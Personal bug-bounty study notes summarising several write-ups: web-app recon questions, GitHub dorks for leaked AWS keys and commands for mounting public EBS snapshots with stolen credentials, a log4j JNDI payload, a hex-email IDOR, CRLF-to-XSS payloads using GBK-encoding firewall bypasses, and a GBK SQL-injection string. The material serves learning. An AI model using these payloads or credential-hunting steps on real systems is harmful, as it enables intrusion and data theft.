

# Day-1 [9-3-2023]

### ****How to Find Your First Bug: Motivation and Tips for Bug Bounty Hunting****

[How to Find Your First Bug: Motivation and Tips for Bug Bounty Hunting](https://infosecwriteups.com/how-to-find-your-first-bug-motivation-and-tips-for-bug-bounty-hunting-5e7343066d0c)

- Take your time to research the application
- Don’t rush directly into testing bugs.
- Instead, take some time to register on the app
    - 
    
    <aside>
    📌 look around, and see if you can 
    create new users with different roles, 
    upload any docs, 
    export something into PDF, 
    or call external services using webhooks.
    
    </aside>
    
- Just play with the app like a regular user, and start questioning yourself:
    - What will happen if a regular user can access this admin section?
    - Can a non-admin user view this secret doc?
    - Can a user upload non-basic doc types, such as PHP files in a PHP application?
    - Is it possible to inject HTML tags into exported PDFs,
        - and if so, is it possible to read internal files using an <iframe> tag?
    - Is it possible to call localhost when creating a new webhook, or even an AWS metadata address?
    - Does the app require an old password for changing the password or email,
        - if not, then is it possible to find XSS somewhere to achieve full ATO (Account Takeover)?
    - What kind of stack app is built with, what are the versions, and are there any vulnerabilities / CVEs with PoCs?
    - Are there any file paths in URL params or POST body, that can be tested for LFI (local file inclusion) vulnerabilities?
    - Is there any premium subscription plan that gives benefits, can these benefits be achieved using a normal user without a subscription?

### ****Finding Treasures in Github and Exploiting AWS for Fun and Profit — Part 1 & 2****

[Finding Treasures in Github and Exploiting AWS for Fun and Profit —  Part 1](https://blog.appsecco.com/finding-treasures-in-github-and-exploiting-aws-for-fun-and-profit-part-1-be5cfadf942)

[Finding Treasures in Github and Exploiting AWS for Fun and Profit — Part 2](https://medium.com/appsecco/finding-treasures-in-github-and-exploiting-aws-for-fun-and-profit-part-2-8ffefa995439)

- Company → Github → Github Dorks → Got Credentials [AWS] → setup AWSCLI using creds → AWS Recon for further vulnerability
- Github Dorks ->
    - 
    
    ```graphql
    filename:credentials aws_access_key_id 
    filename:credentials aws_access_key_id
    "token" "AQoDY"
    "rds.amazonaws.com"
    filename:credentials AWS_ACCESS_KEY_ID
    ```
    
- If got AWS Creds → then setup using aws configure command
- Automation ? → use trufflehog tool →
    
    <aside>
    📌 ./trufflehog git [https://github.com/NAME/REPO](https://github.com/NAME/REPO)
    
    </aside>
    
- AWS Recon →
    - he used `weirdALL tool`
    - Tool gave result as → `**DescribeSnapshots**` permission
        - It describe the EBS snapshots within the AWS account
    - Command →
        
        ```graphql
        aws ec2 describe-snapshots --region <REGION> --profile stolencreds
        
        or
        
        aws ec2 describe-snapshots --region <REGION> --owner-id <ACCOUNT_ID>
        ```
        
    - What we get from this ? → **`Snapshot ID` now can check more info using following command →**
        
        ```graphql
        aws ec2 describe-snapshots --snapshot-ids <snapshot-id-here>
        ```
        
    - What is EBS ?
        - Amazon Elastic Block Store
        - block-level storage volumes for use with EC2 instances
        - EBS volumes behave like raw, unformatted block devices
        - You can mount these volumes as devices on your instances.
        - EBS volumes that are attached to an instance are exposed as storage volumes that persist independently from the life of the instance
    - These EBS can contain Sensitive Information → That means if we get Snapshot ID and EBS Snapshot have **********************************`PUBLIC Visibility`********************************** then we will get these sensitive information as this public visibile to all AWS Users
    - **`We got this Snapshot now What ?`**
        - Just create a volume and attach the volume to an Ubuntu instance.
        - Once attached, we can, mount the filesystem to check through the disk.
        - After attaching the volume, ssh into the instance which is launched
        - Run the command to view the filesystem - `lsblk` and check for that attached volume
        - Now mount that attached volume  → `mount /dev/xvdf1 /mnt`
        - Once mount → browse files and folders and check for any Sensitive Data there
    - 
- Extra →
    - during his recon he found .git folder and using command he checked for commits
    - Command → **************`git log`**************
    - Then search for interesting commit and copy that commit  and then again run command → `**git show <commit-id>**`
    
    ---
    
    <aside>
    📌 Protect Snapshot
    
    ensure their visibility is set to private AND they are encrypted.
    
    Can automate this → Create an SCP that blocks “ec2:ModifySnapshotAttribute” which is responsible for modifying snapshot permissions to make it public
    
    </aside>
    

### ****How did I found RCE on SHAREit which rewarded $$$ bounty****

[How did I found RCE on SHAREit which rewarded $$$ bounty](https://infosecwriteups.com/how-did-i-found-rce-on-shareit-which-rewarded-bounty-7d4196bf1b52)

<aside>
📌 Nothing much, but in this writeup he got  log4j shell alert and then he used payload in Accept header

</aside>



```graphql
Payload -> ${jndi:ldap//colaborator/a}
```

### ****Story Of Unexpected Bugs****

[Story Of Unexpected Bugs](https://thecyberneh.medium.com/story-of-unexpected-bugs-75734d51ac57)

Interesting read

- Read mail → Saw **********************`unsubscribe`********************** button or link there
- Copy the link contained in ************************`unsubscribe`************************ →
    
    ```graphql
    https://target.maintarget.com/cgi-bin/qsurveyadmin.dll?request=exclude&idx=63364C&email=30316E6568706174656C6F6666696369616C40676D61696C2E636F6D&language=English&languagecharset=utf-8&source=1
    ```
    
- 30316E6568706174656C6F6666696369616C40676D61696C2E636F6D → this he took as interesting
- He tried to decode this → base64, md5 etc
    - Then he observed the encoded part is having an range of → A-F and 0-9
    - **`Mean → HEX Encoding`**
- Decoded → got all in Capital Letters → Replace it with Fake mail and encoded as Hex and check the request response
- Yes, he found he can unsubscribe any email - IDORs
- Later he also tried XSS Payload instead of Email and then yes got XSS Also

### ****$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty****

[$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)

> Very Interesting Read - **CRLF to XSS and further exploitation**
> 

- CRLF
    - On a target → he tried for CRLF Attack [Carriage Return Line Feed]
        - What does mean → tell the End of Line of Header Value
    - What is CRLF Injection →
        - when the web server directly renders those special characters without encoding them and passes them to response headers like Location, Set-Cookie, etc.
        - Whatever we give Above Header as Request → then the value will be come in Response
        - /r/n → this is CRLF → in encoded format →%0d%0a
    - In his target he tried like this ⇒
    
    ```graphql
    /%0D%0A%20Set-Cookie:whoami=thecyberneh
    
    so main URL :-  
    https://subDomain.microsoft.com/%0D%0A%20Set-Cookie:whoami=thecyberneh
    
    Result -> 400  Bad Request instead of 404 Not Found
    
    Logic behind this ->
    If web page or directory is not exist then must come as -> 404  not found
    But here Error is different -> 400 Bad Request -> Might be Firewall block the req
    
    For confirmation -> 
    target.com/iamnotexist -> 404 not found
    
    Then tried to bypass this Firewall ->
    
    %0D%0A%20Set-Cookie:whoami=thecyberneh
    %20%0D%0ASet-Cookie:whoami=thecyberneh
    %0A%20Set-Cookie:whoami=thecyberneh
    %2F%2E%2E%0D%0ASet-Cookie:whoami=thecyberneh
    
    Failed
    ```
    
    - Now Interesting Learning or Technique came → `**GBK encoding**`
    - 
    
    ```graphql
    Payload responsible for CRLF injection is :- 嘍嘊
    
    Need to URL Encode this ->
    
    嘍 :- %E5%98%8D
    嘊 :- %E5%98%8A
    
    So, -
    https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
    
    This worked
    ```
    
- CRLF to XSS
    
    
    Now what he did is to try escalate CRLF to XSS 
    
    Before that understand the Structure of  Request n Response
    
    
    
    > The arrow line is Blank Line
    > 
    
    Like →
    
    
    
    <aside>
    📌 For XSS → Need to *insert a Javascript payload in the body section of the Response because Javascript can be render in body 
    
    and for that → need to FORCE the Server **to send a response like this***
    
    
    
    </aside>
    
    Ex. →
    
    
    
    Payload → 
    
    ```graphql
    %E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
    
    as
    
    https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
    
    ```
    

GBK Encoding and CRLF to XSS was the main interesting part in this writeup

Also he gave what else we can do with CRLF →

```graphql
Arbitrary Header injection
Arbitrary Cookie Injection
Javascript injection ( XSS )
HTML Injection
HTTP request splitting
Bypassing Cookie-Based CSRF Protection
Application DOS using overly long Cookies
the attacker can set new headers
```

---

- `**GBK Encoding [let’s learn about it]**`
    
    
    <aside>
    📌 GBK is **an extension of the GB 2312 character set for Simplified Chinese characters, used in the People's Republic of China.
    
    It includes all unified CJK characters found in GB 13000.1-93, i.e. ISO/IEC 10646:1993, or Unicode 1.1.**
    
    </aside>
    

Can be handy →

[Complete Character List for GBK](https://www.fileformat.info/info/charset/GBK/list.htm)

```graphql
GBK Encoding - really cool stuff to know

Let's see on Twitter

#1. GBK Encoding/MultiByte Attack

嘊 = %E5%98%8A = \u560a ⇒ %0A
嘍 = %E5%98%8D = \u560d ⇒ %0D
嘾 = %E5%98%BE = \u563e ⇒ %3E (>)
嘼 = %E5%98%BC = \u563c ⇒ %3C (<)
嘢 = %E5%98%A2 = \u5622 ⇒ %22 (')
嘧 = %E5%98%A7 = \u5627 ⇒ %27 (")

For XSS CRL WAF

---

#2. You can use 
@hackvertor
 extension in Burp:
<@ unicode_escapes>嘊<@/unicode_escapes>
<@ urlencode_all>嘊<@/urlencode_all>
or go `hardcore` and use https://compart.com/en/unicode/U+560A to find similar stuff 
https://compart.com/en/unicode/U+570A

---

Various Characters Encoding -> https://encoding.spec.whatwg.org/#names-and-labels

  ❍  UTF-8
  ❍  ISO-8859-2
  ❍  windows-1251
  ❍  windows-1252
  ❍  GBK
  ❍  UTF-16BE
```

- ****#SQL_Injection #GBK Character Encoding****
    
    
    [#SQL_Injection #GBK Character Encoding](https://cybershafarat.com/2020/12/25/sql_injection-gbk-character-encoding/)
    
    <aside>
    📌 SQL Injection protection Function → ************************`addslashes()`************************
    
    This function takes an input and if it sees characters like ” \ ‘and … in the input sentence, it puts a \ before these characters.
    
    </aside>
    
    <aside>
    📌 One way to bypass this function is to use the GBK encoding character
    
    GBK Encoding Character → made for Chinese characters
    
    Payload → %ef%5c%27%20OR%201=1–%20
    
    </aside>
    
